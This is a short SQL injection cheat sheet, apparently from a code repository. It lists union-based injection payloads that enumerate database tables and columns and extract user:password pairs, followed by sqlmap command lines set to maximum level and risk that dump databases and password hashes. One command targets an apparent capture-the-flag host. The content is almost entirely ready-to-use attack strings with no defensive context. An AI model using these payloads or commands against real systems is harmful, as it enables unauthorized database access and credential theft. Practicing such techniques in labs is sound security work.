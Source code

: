 ## [+] Union Based SQL Injection

' or 1=1#

1' ORDER BY 10#

1' UNION SELECT version(),2#

1' UNION SELECT version(),database()#

1' UNION SELECT version(),user()#

1' UNION ALL SELECT table_name,2 from information_schema.tables#

1' UNION ALL SELECT column_name,2 from information_schema.columns where table_name = "users"#

1' UNION ALL SELECT concat(user,char(58),password),2 from users#


sqlmap --url="<url>" -p username --user-agent=SQLMAP --threads=10 --eta --dbms=MySQL --os=Linux --banner --is-dba --users --passwords --current-user --dbs

```sh
python2 ./sqlmap.py -r login.req --batch --level 5 --risk 3 -p username,password
```

```sh
sqlmap -r header.req -p <parameter> --level 4 --risk 3 --batch
```

Fetch on string.

```sh
python2 ./sqlmap.py -r login.req --batch --level 5 --risk 3 --string "Wrong identification" --dbms mysql -p username,passsword 
python2 ./sqlmap.py -r login.req --batch --level 5 --risk 3 --string "Wrong identification" --dbms mysql -p username,passsword --dump

python2 ./sqlmap.py -r login.req --batch --level 5 --risk 3 -p email --force-ssl --dump

python2 sqlmap.py -u "https://admin-portal.europacorp.htb/login.php" --data "email=admin@europacorp.htb&password=" --risk 3 --level 5 --dbms "MYSQL" --dump
```

